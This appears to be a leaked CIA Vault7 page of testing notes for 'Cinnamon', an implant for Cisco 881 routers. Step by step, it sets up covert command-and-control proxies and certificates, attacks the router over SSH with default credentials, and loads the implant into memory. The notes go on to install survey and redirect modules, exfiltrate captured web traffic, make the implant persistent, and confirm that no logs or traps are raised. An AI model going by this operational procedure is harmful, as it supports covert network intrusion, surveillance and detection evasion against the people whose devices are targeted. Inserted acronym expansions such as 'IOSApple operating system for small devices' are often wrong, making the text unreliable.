


Vault7: CIA Hacking Tools Revealed
Navigation: » Directory » Network Devices Branch (NDB) » Network Devices Branch » Operations/Testing » JQJSECONDCUT
Owner: User #71467
Cinnamon Cisco881 Testing
Cinnamon 881 Testing
The Bakery delivered Cinnamon for the Cisco881 on June 8. Testing Cinnamon for use on an 881 for JQJSECONDCUT. Operator has provided Target device configuration as well as some show commands from the Target. This device is getting DHCPDynamic Host Configuration Protocol from an Internet provider, and is performing NATNetwork Address Translation and DHCPDynamic Host Configuration Protocol server role for inside hosts. This device is also configured for DMVPN, presumably for VOIPVoice over Internet Protocol (Internet telephony) traffic. CONOP will be to use at least two flux nodes, one outside the target network, and then exit and attack from a flux node on the inside LAN.
Testing Summary
- Cinnamon implant has swindle.crt file size limitation (CMN-1) - confirmed fixed in 5.0.2
- Observed one crash during low mem/high CPU condition with IXIA traffic - not confirmed CMNCaiman (Codename)? related (CMN-4)
- Potential issue with a different IOSApple operating system for small devices - device took a long time to boot (CMN-5)
- Issue with CMNCaiman (Codename)? not squelching DNSDomain Name System replies was fixed in version 5.0.1 (CMN-7) - confirmed fixed in 5.0.1
- The Bakery recommends not using redir and survey at the same time (CMN-8)
- Issues with Blot signatures - DF bit not set by CMN, Encrypted Alert not sent by CMNCaiman (Codename)? (CMN-9, CMN0-10)
- Discussed adding a feature to disable active internet detection with trigger packet (CMN-11)
- Potential performance issue with CMNCaiman (Codename)? depending on how busy the target is normally (CMN-12)
- cpp code check issues (CMN-13, CMN-14)
- Observed anomalous output after issuing debug if-mgr trace all - might be IOSApple operating system for small devices issue since it is observed on 881 with no CMN, and no upgrade ROMMONRead-Only Memory Monitor Cisco bootstrap program (CMN-15)
- Issue with CMNCaiman (Codename)? detecting PAT correctly causing C2 failure (CMN-16) confirmed fixed in 5.0.2
- CMN DNSDomain Name System listener timeout too short (CMN-17) - confirmed fixed in 5.0.3
- Issue with User Agent string identified by The Bakery - need to confirm fix in 5.0.2
- Operator may be able to set up a redirector for us to test with
- Bug 497 - Null pointer dereference when Host: field not present in User Agent string sniffed by Cinnamon - confirmed fixed in 5.0.3
Progress/Notes
Cinnamon Setup Steps:
- Build implant on BuildVM
- Edit /impant/cinnamon.cfg
- Edit LP_DOMAIN_NAME to match the dns entry for the Blot Proxy server - www.suptest.com in our test case
- Edit Tool ID that will be used by beastbox/swindle to identify Cinnamon traffic - 0x9219D10C for our test case (this is arbitrary)
- Edit PROBE_DEST entries so that they all say something that will resolve to web server - www.google.com in our test case
- Create cmn-880-norb.bin file for No Reboot, non-persisten implant
- make clean 880-norb - outputs a folder called 880-norb
- Create modules needed for testing - from /implant/modules directory
- make clean survey-powerpc
- make clean redir-powerpc
- Edit /impant/cinnamon.cfg
- Setup Blot 4.3 on CentOS 5.6 VMs
- Beastbox and Swindle on Blot Proxy
- Copy Blot 4.3 on to Blot Proxy VM
- Install Beastbox and Swindle from rpms
- Edit /etc/blot/beastbox.cfg
- Edit external-ip to be the IP of the Blot Proxy server - 172.20.13.10 in our test case
- Edit th name to spicerackH
- Edit ip to Blot Spicerack server - 172.20.13.11 in our test case
- Remove other th name entries
- Edit server name Apache ip to the Cover Web server for 443 - 172.20.13.20 in our test case
- Edit the server name Apache_2 ip to the Cover Web server for 80 - 172.20.13.20 in our test case
- Edit the server name BINDDNSDomain Name System server software ip to our DNSDomain Name System server for the test - X.X.X.X (LVLT-GOGL-8-8-8[US]) in our test case
- Under itd swindle, edit tid num to Tool ID that has been baked into impant - 0x9219D10C in our test case
- Under itd swindle, edit th to spicerackH
- Remove other itd entries
- Generate a certificate to match the DNSDomain Name System name for Blot Proxy and save to file in /etc/blot/itds/swindle/swindle.crt
- openssl genrsa -out new_key.pem 1024
- openssl req -new -key new_key.pem -out new_req.csr
- openssl x509 -req -days 365 -in new_req.csr -signkey new_key.pem -out new_cert.crt
- Note that CMNCaiman (Codename)? does not work with a larger key size - modulus 2048 does not work - CMN-1
-
File format for swindle.crt should be the output of 'openssl x509 -in new_cert.crt -noout -text' followed by new_cert.crt:
Certificate:
Data:
Version: 1 (0x0)
Serial Number:
d8:2c:bd:b7:7d:47:4f:fc
Signature Algorithm: sha1WithRSAEncryption
Issuer: C=US, ST=CA, L=Home Town, O=Super T, OU=HR, CN=www.suptest.com/emailAddress=help@suptest.com
Validity
Not Before: Jun 16 13:05:52 2015 GMT
Not After : Jun 15 13:05:52 2016 GMT
Subject: C=US, ST=CA, L=Home Town, O=Super T, OU=HR, CN=www.suptest.com/emailAddress=help@suptest.co
m
Subject Public Key Info:
Public Key Algorithm: rsaEncryption
RSAEncryption algorithm Public Key: (1024 bit)
Modulus (1024 bit):
00:d8:2f:b2:59:62:b0:ee:a0:81:8e:38:04:6e:74:
3d:dc:bf:41:99:b5:4c:d4:04:34:1c:83:21:1e:5a:
23:11:ff:7f:a9:5c:51:92:c7:dc:4f:ba:0b:04:09:
07:dd:b6:d6:a1:fa:97:01:34:8f:96:5e:cc:95:3c:
b6:d1:61:8f:8a:a5:5b:ae:c4:05:b5:87:2a:30:4c:
15:02:bb:95:dc:ba:98:bf:ab:d1:39:a0:d1:da:15:
7d:95:48:1b:88:51:96:7c:f2:79:ff:a0:5d:d2:d8:
87:a2:09:47:9c:f0:89:cc:98:57:d9:55:1c:c4:dd:
80:c9:41:17:37:24:fc:89:7d
Exponent: 65537 (0x10001)
Signature Algorithm: sha1WithRSAEncryption
0f:ed:5e:1a:61:98:f7:3a:8e:de:3d:6b:ee:5e:23:e7:24:30:
d2:f1:e3:d5:ec:f4:3c:59:67:9c:e1:0a:25:dd:c4:5a:5b:f4:
82:31:23:9f:ed:d9:fa:59:a2:d5:80:99:a1:1f:bc:19:90:29:
77:16:29:18:25:38:03:a9:0d:54:dd:05:cb:f2:2a:ce:9a:e3:
4d:c0:c1:e7:23:5c:c5:97:cf:94:85:a0:8d:1e:9a:f1:7d:6d:
50:9e:e4:7f:a7:79:3e:8e:c4:a4:c3:51:28:a9:ac:31:dc:e1:
4e:c1:d9:6f:08:99:96:02:ea:d4:79:f6:1e:de:cd:fa:a4:3d:
b7:9d
-----BEGIN CERTIFICATE-----
MIICiTCCAfICCQDYLL23fUdP/DANBgkqhkiG9w0BAQUFADCBiDELMAkGA1UEBhMC
VVMxCzAJBgNVBAgTAkNBMRIwEAYDVQQHEwlIb21lIFRvd24xEDAOBgNVBAoTB1N1
cGVyIFQxCzAJBgNVBAsTAkhSMRgwFgYDVQQDEw93d3cuc3VwdGVzdC5jb20xHzAd
BgkqhkiG9w0BCQEWEGhlbHBAc3VwdGVzdC5jb20wHhcNMTUwNjE2MTMwNTUyWhcN
MTYwNjE1MTMwNTUyWjCBiDELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAkNBMRIwEAYD
VQQHEwlIb21lIFRvd24xEDAOBgNVBAoTB1N1cGVyIFQxCzAJBgNVBAsTAkhSMRgw
FgYDVQQDEw93d3cuc3VwdGVzdC5jb20xHzAdBgkqhkiG9w0BCQEWEGhlbHBAc3Vw
dGVzdC5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBANgvsllisO6ggY44
BG50Pdy/QZm1TNQENByDIR5aIxH/f6lcUZLH3E+6CwQJB9221qH6lwE0j5ZezJU8
ttFhj4qlW67EBbWHKjBMFQK7ldy6mL+r0Tmg0doVfZVIG4hRlnzyef+gXdLYh6IJ
R5zwicyYV9lVHMTdgMlBFzck/Il9AgMBAAEwDQYJKoZIhvcNAQEFBQADgYEAD+1e
GmGY9zqO3j1r7l4j5yQw0vHj1ez0PFlnnOEKJd3EWlv0gjEjn+3Z+lmi1YCZoR+8
GZApdxYpGCU4A6kNVN0Fy/IqzprjTcDB5yNcxZfPlIWgjR6a8X1tUJ7kf6d5Po7E
pMNRKKmsMdzhTsHZbwiZlgLq1Hn2Ht7N+qQ9t50=
-----END CERTIFICATE-----
- Service beastbox start
- Verify that Beastbox is working by web browsing to the Proxy IP and you should get forwarded to the Cover Web server for 80 and 443
- Setup Blot LP
- Copy spicerack, salt, pepper, and scramble rpms onto Blot LP
- Install spicerack, salt, pepper and scramble from rpms
- Run spicerack - /opt/spicerack/spice_rack 2>&1 >/dev/null & - libcrypto.so.0.9.8 error here - CMN-3
- Disbabled iptables to get connection from impant to work - need to add rule to firewall instead of disabling
- Copy Cinnamon network and redirect modules from BuildVM to /opt/pepper/cmds directory on LP
- scp implant/modules/powerpc/redir-powerpc.module root@172.20.13.11:/opt/pepper/cmds/.
- scp implant/modules/powerpc/survey-powerpc.module root@172.20.13.11:/opt/pepper/cmds/.
- CoverWeb server - standard web server for 80 and 443 should be configured
- Beastbox and Swindle on Blot Proxy
-
Setup ICON VM
- Copy bacon rpm to ICON VM
- Install bacon from rpm - error here, had to compile bacon on the Build VMVirtual Machine and copy the executable and .cfg file to ICON /opt/bacon/ CMN-2
-
On Blot LP, use salt to calculate the Node ID
- Copy first 0x80 bytes from Motherboard info in output if IOSApple operating system for small devices command "show diag" on the DUTDevice Under Test into a flie /opt/salt/cookie.txt
- ./salt cookie.txt
- Make a copy of /opt/bacon/bacon.cfg called 881-cfg
-
Edit the 881-cfg file
- Change Node ID (called UNIQUE_ID in this file) calculated by salt - 0xfb583dbf for 881-Top
- Change Toold ID - enter Tool ID that was used with beastbox/swindle - 0x9219D10C in our test case
- Copy the 880-norb folder from BuildVM to ICON using windows share
-
Copy the 880-norb folder from BuildVM to ICON using scp to avoid the above error
-
Must initiate SCP from ICON due to iptables - scp -r root@10.9.8.108:/home/cmn-build/cmn-5.0.0/implant/880-norb .
-
Must initiate SCP from ICON due to iptables - scp -r root@10.9.8.108:/home/cmn-build/cmn-5.0.0/implant/880-norb .
-
Copy IACInternational Access Code 4.1 to ICON - it includes remote
-
Setup remote
- su - root
- chmod -R +x data/config/npc3/profile
-
Edit data/config/npc3/target.py
- interpacket time = 0.1
- arch = 'ppc'
- machine = '880'
- Edit target-aliases with IP of target - XXX.XX.XXX.XXX (CABLEVISION[US]) in our test case
- Copy ramUploadAndExecuteCmn800.py from utilities on BuildVM to ICON's NPC3CP-5.2/bin/remote/bin directory
- Generate Seed traffic on the test network - watch -n2 wget -nv -T 1 -O /dev/null http://alias.google.com
- Smoke Test - Install CMN
-
Reload 881 router to start with clean setup
- Sh proc cpu hist = 2% CPU without traffic load
- Sh mem = Total-26214400 :: Used-9686440 :: Free-16527960
-
From Cinnabuild-5.0.0 VM:
- /home/cmn-build/cmn-5.0/implant# make clean 880-norb (script completes and creates 880-norb directory)
-
From Cinnamon-ICON:
- /home/user1# scp -r root@10.9.8.108:/home/cmn-build/cmn-5.0/implant/880-norb/ .
- Enter password and directory copies over
-
/home/user1/IAC 4.1.0/delivery/IAC-4.1.0/bin# ./sshiac-ppc -i XXX.XX.XXX.XXX (CABLEVISION[US]) -l cisco:cisco
- 881 cpu spikes to 99% two different times for about 20 seconds each
- LGDHM codes given and ssh-iac is complete
- /home/user1/IAC 4.1.0/delivery/NPC3CP-5.2/bin/remote# vim target-aliases
- Configure target IP and procid
- #source aliases = remote>
- #broad
- #./seq set 1
- #broad = status OK
[target:XXX.XX.XXX.XXX (CABLEVISION[US])] remote> ./bin/ramUploadAndExecuteCmn800.py /home/user1/880-norb/cmn-880-norb.bin
- "yes"
- file chunks uploaded and reach 100%
- Wait 3 minutes minimum
- sh proc cpu hist: spikes to 11-12% for five seconds about once a minute and then settles in to 4-6% repeatidly
- sh mem = Total-26214400 :: Used-9686440 :: Free-16527960
- /home/user1# scp -r root@10.9.8.108:/home/cmn-build/cmn-5.0/implant/880-norb/ .
-
Reload 881 router to start with clean setup
- Smoke Test - Establish Comms
[root@blot-spicerack log]# tail -f spicerack.log
-
user1@Cinnamon-ICON:/opt/bacon$ sudo ./bacon XXX.XX.XXX.XXX (CABLEVISION[US]) 881.cfg www.suptest.com 443
- Spicerack log shows callback from implant
06/16/2015 13:10:19.065 - Mission2:0:Debug: Socket accept info: client address = 172.20.13.10, port = 32991
06/16/2015 13:10:19.071 - Mission2:11:Info : SESSION STARTED
06/16/2015 13:10:19.071 - Mission2:11:Debug: Connected To: IP address = 172.20.13.10, port = 32991.
06/16/2015 13:10:19.916 - Mission2:11:Debug: +++Packet received (12 bytes).+++
06/16/2015 13:10:19.916 - Mission2:11:Debug: +++Packet received (780 bytes).+++
06/16/2015 13:10:19.916 - Mission2:11:Info : +++Message received (792 bytes).+++
06/16/2015 13:10:19.916 - Mission2:11:Debug: Time packet received = 06/16/2015 13:10:19.916.
06/16/2015 13:10:19.916 - Mission2:11:Debug: Data Length = 708
06/16/2015 13:10:19.917 - Mission2:11:Debug: Tool ID Xor = 3
06/16/2015 13:10:19.917 - Mission2:11:Info : Tool ID = 0x9219d10c
06/16/2015 13:10:19.917 - Mission2:11:Debug: Seed = 0x33fb3f95
06/16/2015 13:10:19.917 - Mission2:11:Debug: Hash = 0x3536
06/16/2015 13:10:19.917 - Mission2:11:Info : Node ID = 0xfb583dbf
06/16/2015 13:10:19.917 - Mission2:11:Debug: Timestamp = 0x000014a4
06/16/2015 13:10:19.917 - Mission2:11:Debug: Module ID = 1
06/16/2015 13:10:19.917 - Mission2:11:Debug: Last Packet Indicator = 1
06/16/2015 13:10:19.932 - Mission2:11:Debug: Payload data length from encrypted header = 692.
06/16/2015 13:10:19.932 - Mission2:11:Debug: Payload data type = 0, data length = 686, data end = 1.
06/16/2015 13:10:19.932 - Mission2:11:Debug: COMMS-H request mission module name = Beacon, ID = 1.
06/16/2015 13:10:19.932 - Mission2:11:Info : +++BTHP REQUEST PACKET 1 RECEIVED - Beacon+++
06/16/2015 13:10:19.932 - Mission2:0:Info : dumpRawPacket: For RCVD_RAW_FILE
06/16/2015 13:10:19.935 - Mission2:11:Info : Dumped raw packet received to file: /opt/spicerack/data/fb583dbf/Beacon/receive/20150616131019_0000000011.raw.
06/16/2015 13:10:19.935 - Mission2:11:Debug: Payload data type = 0, data length = 686, data end = 1.
06/16/2015 13:10:19.938 - Mission2:11:Debug: Writing to receive file /opt/spicerack/data/fb583dbf/Beacon/receive/20150616131019_0000000011.rcvd.
06/16/2015 13:10:19.938 - Mission2:11:Info : Dumped BTHP request string received to file: /opt/spicerack/data/fb583dbf/Beacon/receive/20150616131019_0000000011.rcvd.
06/16/2015 13:10:19.938 - Mission2:11:Info : ---Building COMMS-H signal response(s)---
06/16/2015 13:10:19.938 - Mission2:11:Debug: Parsing .send file for commands.
06/16/2015 13:10:19.939 - Mission2:11:Debug: No commands present. Sending No Op
06/16/2015 13:10:19.939 - Mission2:11:Debug: Total COMMS-H payload length of command(s) reply data = 15
06/16/2015 13:10:19.939 - Mission2:11:Debug: Single packet response, payloadLength = 77, payloadDataLength = 15, lastPacketIndicator = 1
06/16/2015 13:10:19.939 - Mission2:11:Debug: Inserting Tool ID = 0x9219d10c, Tool ID Xor Key Index = 3
06/16/2015 13:10:19.939 - Mission2:11:Debug: Seed = 0x91a54cfe
06/16/2015 13:10:19.939 - Mission2:11:Debug: COMMS-H response auth hash = 0xac54.
06/16/2015 13:10:19.939 - Mission2:11:Debug: Returning built 1 COMMS-H reply packet(s).
06/16/2015 13:10:19.939 - Mission2:11:Debug: BTHP reply payload data length = 77.
06/16/2015 13:10:19.939 - Mission2:11:Debug: hdr_len = 24, data_len = 77.
06/16/2015 13:10:19.939 - Mission2:11:Debug: Before response write, replySize = 101.
06/16/2015 13:10:19.939 - Mission2:11:Debug: ---Packet sent (101/101 bytes).---
06/16/2015 13:10:19.939 - Mission2:11:Info : ---Message sent (101 bytes).---
06/16/2015 13:10:19.939 - Mission2:11:Debug: Time response sent = 06/16/2015 13:10:19.939.
06/16/2015 13:10:19.939 - Mission2:11:Info : ---COMMS-H REPLY SENT (1/1) - ---
06/16/2015 13:10:19.942 - Mission2:11:Info : Dumped raw packet sent to file: /opt/spicerack/data/fb583dbf/Beacon/sent/20150616131019_0000000011.raw.
06/16/2015 13:10:19.945 - Mission2:11:Debug: Writing to sent file /opt/spicerack/data/fb583dbf/Beacon/sent/20150616131019_0000000011.sent.
06/16/2015 13:10:20.916 - Mission2:11:Debug: CLOSING SOCKET 5
06/16/201 5 13:10:20.916 - Mission2:11:Debug: Shutdown connection: IP address = 172.20.13.10, port = 32991.
06/16/2015 13:10:20.917 - Mission2:11:Info : SESSION ENDED- Log file is appended on Blot-Proxy-CentOS 5.6
[root@blot blot]# pwd
/var/log/blot
[root@blot blot]# ls -User #?
total 148K
drwxr-xr-x 2 beastbox blot 4.0K Mar 2 06:10 ./
drwxr-xr-x 17 root root 4.0K Jun 16 04:02 ../
-rw-r--r-- 1 beastbox blot 131K Jun 16 09:14 beastbox.log.enc
- Spicerack log shows callback from implant
- Smoke Test - Install/Uninstall Modules
- Create module and copy to Spicerack VM
root@cinnabuild-5:/home/cmn-build/cmn-5.0/implant/modules# make clean redir-powerpc
[root@blot-spicerack cmds]# scp -r root@10.9.8.108:/home/cmn-build/cmn-5.0/implant/modules/redir/powerpc/redir-powerpc.module .
- Create upload cmd file
- /opt/pepper/cmds
[root@blot-spicerack cmds]# vi redir-powerpc.cmd
module_upload|redir-powerpc.module[root@blot-spicerack cmds]# .././pepper redir-powerpc.cmd
[root@blot-spicerack cmds]# cp redir-powerpc.send /opt/spicerack/data/fb583dbf/Beacon/send/.
-
user1@Cinnamon-ICON:/opt/bacon$ sudo ./bacon XXX.XX.XXX.XXX (CABLEVISION[US]) 881.cfg www.suptest.com 443
Sent packet to XXX.XX.XXX.XXX (CABLEVISION[US]):44719-
[root@blot-spicerack receive]# more 20150616170301_0000000013.status
[Command Results]
Total commands reporting status: 1Command: 1
Module: 4
Command: 0
Status: SUCCESS[root@blot-spicerack receive]# more 20150616171309_0000000001.rcvd
[Session Info]
Rcvd Start Time = 06/16/2015 17:13:09.854
Session = 1
Request Type = HTTPS
Module = Beacon[Connection Info]
Proxy IP = 172.20.13.10:443
Source IP = XXX.XX.XXX.XXX (CABLEVISION[US]):27816
Destination IP = 172.20.13.11:4097[Implant Info]
Unique Implant ID = 0xfb583dbf
Tool ID = 0x9219d10c
Up Time = 19854
Impersonated IP = XXX.XXX.XXX.XX (CORE2[US])[Versioning]
Cinnamon Version = 5.0.0 Jun 16 2015 - 07:17:00
IOS Version = C880 Software (C880DATA-UNIVERSALK9-M), Version 15.1(2)T4, RELEASE SOFTWARE (fc1)
Build ID = 1856:7b366e5a9b31[Beacon Health]
Max Consecutive Timed Beacon Failures = 10
Failed Beacon Counter = 6
Beacon Failsafe Status = Not Tripped[Memory Health]
IOMEM Free Size = 0x00fbac58 Bytes[BreakPoints]
Total Breakpoints = 6
Address Label
---------- -----
0x80495534 0x4
0x80cced88 0x4
0x80258478 0x4
0x8111eca0 0x4
0x802376dc 0x4
0x8210cfbc 0x1[Modules]
Active Modules: 5
Module Version
0 5.0.0
1 5.0.0
2 5.0.0
3 5.0.0
4 5.0.0
-
- Upload Survey Module
- Before survey module upload:
881-Top#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42485408 121546048 114024412 109062604
I/O E700000 26214400 9549340 16665060 16487744 16493660 Created survey module on BuildVM - make clean survey-powerpc
- Copied survey module to Blot Spicerack - scp survey-powerpc root@172.20.13.11:/opt/pepper/cmds/.
- Created survey_upload.cmd - module_upload|survey-powerpc.module
- Peppered survey_upload.cmd - .././pepper survey_upload.cmd
- Copied .send file to send directory and triggered implant
- Module uploaded successfully:
[root@blot-spicerack receive]# more 20150616182438_0000000002.status
[Command Results]
Total commands reporting status: 1Command: 1
Module: 4
Command: 0
Status: SUCCESS -
Memory after module upload:
881-Top#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42485460 121545996 114024412 109062604
I/O E700000 26214400 9549340 16665060 16487744 16493660 - Did not observe any log messages
- Before survey module upload:
- Create module and copy to Spicerack VM
- Smoke Test - Uninstall CMN
- Created command file to uninstall -
device_uninstall|0
- Peppered command and copied to send directory, triggered CMN
- Impant picked up file - saw no spike in CPU, but instead a drop from about 11% five second value to 5%.
- memory after uninstall
881-Top#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42497720 121533736 114024412 109062604
I/O E700000 26214400 9549340 16665060 16487744 16493660 - Uninstall leaves behind IAC
- Created command file to uninstall -
- Ad hoc Test - Reinstall after install/uninstall
- After test 4, attempted to install base CMNCaiman (Codename)? again via remote - upload successful
- Memory after uninstall
881-Top#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42497720 121533736 114024412 109062604
I/O E700000 26214400 9549340 16665060 16487744 16493660 Performed 3 base install/uninstalls with device_uninstall|0 command and 3 more base uninstalls with device_uninstall|1
- No crash, no cpu spikes, no syslog messages to buffer or console.
- Collected a show tech after uninstall
- Memory after install/uninstalls - Used memory about 12kb lower and no change to largest free block :
881-Top#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42485788 121545668 114024412 109062604
I/O E700000 26214400 9549340 16665060 16487744 16493660
- Ad hoc Test - Install CMNCaiman (Codename)? base and then both modules with one command file
- Reloaded device to start with clean DUT
- Attacked with SSHIAC and uploaded CMNCaiman (Codename)? base
- created a command file with both redir and survey module upload commands
module_upload|survey-powerpc.module
module_upload|redir-powerpc.module - When pepper was run on this file, command file validation failed error - expecting 1 line
- When I tried to put both files on 1 line, got a command file validation error - expecting 1 argument
- Created two separate .send files to upload the modules and copied both into send directory, triggered implant
- Ad hoc Test - Attempt to install modules when they are already installed
- Got the following status file
[root@blot-spicerack receive]# more 20150616210905_0000000019.status
[Command Results]
Total commands reporting status: 4Command: 1
Module: 4
Command: 0
Status: FAILURE - 0x00000004Command: 2
Module: 4
Command: 0
Status: SUCCESSCommand: 3
Module: 4
Command: 0
Status: FAILURE - 0x00000004Command: 4
Module: 4
Command: 0
Status: SUCCESS[root@blot-spicerack receive]#
No logs reported on console or syslog
- Got the following status file
- Ad hoc Test - Simulate power failure, subsequent beacon attempt, and re-attack
- Memory prior to start of test:
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42310372 121721084 116302072 111284268
I/O E700000 26214400 9549340 16665060 16525184 16531100
- Pull power from 881 while running with CMNCaiman (Codename)? and modules previously installed and running successfully
- No suspicious console/buffer logs on reboot other than what would show up after a reboot after power failure
- Memory post boot-up:
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41706948 122324508 116079892 111069152
I/O E700000 26214400 9683944 16530456 16527360 16527324
- Attempt to send bacon simulating operator that is not aware that the target device had lost power
- Sent multiple ./bacon beacon requests without response on Spicerack LP.
- No addtional console/buffer logs or snmp traps show from target device
- Re-attack with ssh-iac and re-implant 881 target device:
-
root@Cinnamon-ICON:/home/user1/IAC 4.1.0/delivery/IAC-4.1.0/bin# ./sshiac-ppc -i XXX.XX.XXX.XXX (CABLEVISION[US]) -l cisco:cisco
- Received: LGDHM
- #source aliases = remote>
- #broad
- #./seq set 1
- #broad = status OK
[target:XXX.XX.XXX.XXX (CABLEVISION[US])] remote> ./bin/ramUploadAndExecuteCmn800.py /home/user1/880-norb/cmn-880-norb.bin
- "yes"
- file chunks uploaded and reach 100%
- Wait 3 minutes minimum
- Sent beacon from ICON to DUTDevice Under Test -> successfully received reply on Spicerack LP
- No console/bugger logs or snmp traps received
-
- Memory prior to start of test:
- Long Term Monitoring - Test for memory leaks
- Configured 881-Bottom to send SNMPSimple Network Management Protocol traps, syslogs and SNMPSimple Network Management Protocol monitoring to solarwinds server
- Configured with Seeds traffic from a single host connected behind 881
- Implanted with Cinnamon and redir and survey modules
- Connected IXIA to 881 and 3845 to run traffic - have not started traffic yet
- Established a survey rule for all 80 and 443 traffic and with a duration of 12 hours - will let it run over night and check solarwinds in the morning. Currently only seeds traffic running wget every 2 seconds. The following morning I was able to exfil all the data from the device - saw the 80 and 443 traffic after unscrambling the file.
- Enabled two redirect rules to run overnight - traffic not currently matching but rules are active.
- Tried enabling IXIA and was attempting different network neighborhood settings - none were resulting in successful tcp sessions. Logged on Seeds host and attempted to ping 10.100.100.1 - could not. Logged onto 3845 and noticed the eigrp session for 881_bottom was not active and tunnel was down. Checked 881 and the console window had closed out. Re-established console session and uptime was 1 minute, crashinfo in flash.
From SNMPSimple Network Management Protocol Trap:
whyReload = error - an Illegal Opcode exception, PCPersonal Computer 0x804D1778
sysUpTime = 42.31 seconds
snmpTrapOID = SNMPv2-MIB:coldStart
sysUpTime = 1 minute 12.37 seconds - Attempted to reproduce now that CMNCaiman (Codename)? is not on device after reload, but it is not crashing at this time. Need to put CMNCaiman (Codename)? back on and attempt to reproduce crash. - CMN-4
- Re-installed CMNCaiman (Codename)? and both modules and ran the same IXIA traffic test three more times, and was not able to reproduce the crash.
- Test restarting modules/loading/unloading without reboot
- 881-Top with CMNCaiman (Codename)? installed non-persistently
-
Load both redir and tunnel modules with 1 command
[root@blot-spicerack receive]# more 20150622192913_0000000070.status
[Command Results]
Total commands reporting status: 2Command: 1
Module: 4
Command: 0
Status: SUCCESSCommand: 2
Module: 4
Command: 0
Status: SUCCESS - Remove both redir and tunnel modules - module 4 fails - cannot delete redir module:
[root@blot-spicerack receive]# more 20150622194021_0000000075.status
[Command Results]
Total commands reporting status: 2Command: 1
Module: 4
Command: 1
Status: SUCCESSCommand: 2
Module: 4
Command: 1
Status: FAILURE - 0x00000008 - Attempted to remove module 4 individually, but I keep getting the same error code.
- Beginning again with clean DUT
- Loaded cmn-880-norb - installed with modules 0,1,2,4
- First load redir module - installed as module 3
- Second load survey module - installed as module 5
- Deleted module 3 and module 5 in one command - success
- Repeating steps g-i 4 times. No errors
- Attemped to delete modules that weren't present, failed gracefully with error code 8
- SNMP Trap Test
- Tested upload of CMNCaiman (Codename)? as well as upload of modules and CMNCaiman (Codename)? uninstall - no SNMPSimple Network Management Protocol Trap recorded
- Tested beacons, no SNMPSimple Network Management Protocol Trap
- Uploaded redir module and then uploaded survey modules. No trap.
- Uploaded redir rules as well as survey for 80 and 53 rules.
- removed survey scenario
- Performed show survey - no scenarios uploaded
- Attemped to upload a cmd file from send directory - just received regular beacon and the cmd file was not picked up
- Performed a redir show and saw no rules present - expected rules to be present since I had uploaded them - rules had a timer to expire
- Re-uploaded rules with a longer timer
- Disabled one rule, then deleted both rules - no traps throughout this test.
- Deleted both modules
- Uploaded both modules and configured an interface redirection rule, and a reverse to match, to redirect the seeds host from X.X.X.XX (LVLT-GOGL-8-8-8[US]) to 172.20.13.10
- Tested the rule by web browsing from Seeds host and rule works as expected
- Setup the survey rule again - this time i let it run for 10 minutes and then exfilled the data successfully.
- Performed a device show config
- Changed beacon interval to 20s - beacons arriving every 20s
- Performed a device stick:
881-Top#show rom
ReadOnly ROMMONRead-Only Memory Monitor Cisco bootstrap program version:System Bootstrap, Version 12.4(22r)YB5, RELEASE SOFTWARE (fc1)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 2009 by cisco Systems, Inc.No upgrade ROMMONRead-Only Memory Monitor Cisco bootstrap program programmed or not yet run
Currently running ROMMONRead-Only Memory Monitor Cisco bootstrap program from ReadOnly region
ROMMON from Upgrade region is selected for next boot881-Top#
No syslogs or SNMPSimple Network Management Protocol traps observed during all tests so far
- Performed a device level 1 uninstall - no syslogs, console logs or SNMPSimple Network Management Protocol traps observed during any of the above testing.
- Reinstalled CMNCaiman (Codename)? and both modules, changed beacon interval to 20s, then stuck it
- Rebooted and it came back and began beaconing every 20s as expected after a few minutes
- It returned with only the base CMN, no modules, as expected.
- next test might be uninstall with level 0 instead of 1
- Uninstalled with level 0, beacons stopped coming in every 20s. Rebooted and beacons started back, CMNCaiman (Codename)? was present with no modules.
- Sent uninstall with level 0 again, repeated step x - same result
- Uninstall with level 1 - CMNCaiman (Codename)? stopped beaconing and now show rom says it will boot from read-only on next boot
- Rebooted device to clear CMNCaiman (Codename)? - no traps, console logs or syslogs observed
- Boot times
- Establish baseline with no CMN, no traffic, time from when pings stop to pings beginning again - 3 reboots - 1m50s, 1m45s, 1m49s
- Install CMNCaiman (Codename)? sticky-norb, uploaded module, changed beacon time to 10s.
- Rebooted, waited for beaconing every 10s to resume between each reboot - 2m31s, 2m29s, 2m29s
- Test Upgrade/Downgrade IOSApple operating system for small devices while CMNCaiman (Codename)? present
